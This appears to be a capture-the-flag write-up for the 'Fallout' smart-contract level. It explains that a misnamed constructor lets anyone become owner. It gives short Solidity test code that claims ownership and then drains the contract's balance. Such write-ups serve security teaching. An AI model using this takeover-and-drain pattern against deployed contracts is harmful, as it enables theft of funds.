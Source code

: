# Objective

- Claim ownership of the contract

# Proof of Concept

The contract does not use the `constructor()` function, but instead a publicly accessible function named `Fal1out()`. Any account that sends some Ether to this function will be set as the new `owner` of the contract.

```solidity
falloutContract.Fal1out{value: 1 wei}();
assertEq(falloutContract.owner(), attacker);

falloutContract.collectAllocations();
assertEq(address(falloutContract).balance, 0);
```

